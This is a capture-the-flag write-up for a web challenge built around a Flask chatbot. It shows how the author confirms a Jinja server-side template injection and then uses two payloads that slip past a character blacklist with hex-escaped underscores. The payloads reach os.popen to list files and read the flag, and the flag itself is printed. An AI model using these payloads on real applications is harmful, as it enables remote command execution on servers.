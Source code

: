 ## This is a writeup for the Unintelligible-Chatbot challenge in Web category

We get this chatbot which have only 2-3 responses.
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/6ec7acc9-dc7d-46ba-bb60-ed9b2e2dcb10)

My first thought was trying xss,
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/31fac526-6d8f-4faa-aaf0-20572ba91fd9)
turns out it didnt work.

If we try to typing some characters like '%,#,.' we can see they're blacklisted
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/bd61dd52-fc36-43c3-a667-03d189b9225c)

Then i got to know it uses flask, so i tried some jinja 
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/c2f5cfca-b254-4059-98f7-e5e31466447b)
We get this following output, 
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/a3487672-046f-4ec2-a21d-a1213dc265cd)

i was confirmed this had SSTI(server-side-template-injection) vuln using jinja.

So i tried the following payload:
>{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

We get this:
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/3c82198a-f6c3-4846-a287-bc5736fe02ea)

We can see there's a file called flag.
changing 'ls' to 'cat flag' 

>{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

we get the flag!
![image](https://github.com/ayu-ch/backdoorCTF-23/assets/137001939/9814bc8f-4b44-4ace-a4ba-b90c905584ec)

```flag{n07_4n07h3r_5571_ch4ll3n63}```

Happy Hacking!


